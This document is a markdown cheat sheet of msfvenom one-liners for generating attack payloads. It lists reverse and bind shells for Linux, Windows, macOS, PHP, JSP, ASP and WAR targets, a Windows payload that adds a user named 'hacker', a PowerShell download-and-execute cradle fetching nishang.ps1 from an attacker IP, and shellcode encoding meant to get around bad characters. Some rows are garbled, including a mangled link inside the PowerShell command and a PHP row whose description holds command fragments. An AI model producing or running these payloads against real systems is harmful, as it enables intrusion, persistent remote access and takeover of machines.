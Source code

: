 | **MSFVenom Payload Generation One-Liner** | **Description** |
| --- | --- |
| msfvenom -l payloads | List available payloads |
| msfvenom -p PAYLOAD --list-options | List payload options |
| msfvenom -p PAYLOAD -e ENCODER -f FORMAT -i ENCODE COUNT LHOST=IP | Payload Encoding |
| msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf | Linux Meterpreter reverse shell x86 multi stage |
| msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf | Linux Meterpreter bind shell x86 multi stage |
| msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf | Linux bind shell x64 single stage |
| msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf | Linux reverse shell x64 single stage |
| msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe | Windows Meterpreter reverse shell |
| msfvenom -p windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe | Windows Meterpreter http reverse shell |
| msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe | Windows Meterpreter bind shell |
| msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe | Windows CMD Multi Stage |
| msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe | Windows CMD Single Stage |
| msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe | Windows add user |
| msfvenom -p osx/x86/shell_reverse_tcp LHOST=IP LPORT=PORT -f macho > shell.macho | Mac Reverse Shell |
| msfvenom -p osx/x86/shell_bind_tcp RHOST=IP LPORT=PORT -f macho > shell.macho | Mac Bind shell |
| msfvenom -p cmd/unix/reverse_python LHOST=IP LPORT=PORT -f raw > shell.py | Python Shell |
| msfvenom -p cmd/unix/reverse_bash LHOST=IP LPORT=PORT -f raw > shell.sh | BASH Shell |
| msfvenom -p cmd/unix/reverse_perl LHOST=IP LPORT=PORT -f raw > shell.pl | PERL Shell |
| msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f asp > shell.asp | ASP Meterpreter shell |
| msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f raw > shell.jsp | JSP Shell |
| msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war > shell.war | WAR Shell |
| msfvenom -p php/meterpreter_reverse_tcp LHOST=IP LPORT=PORT -f raw > shell.php cat shell.php | pbcopy && echo '?php ' |
| msfvenom -p php/reverse_php LHOST=IP LPORT=PORT -f raw > phpreverseshell.php | Php Reverse Shell |
| msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('[http://IP/nishang.ps1')\](http://ip/nishang.ps1')%5C)"" -f python | Windows Exec Nishang Powershell in python |
| msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata_ga_nai -b "\x04\xA0" | Bad characters shikata_ga_nai |
| msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/fnstenv_mov -b "\x04\xA0" | Bad characters fnstenv_mov |
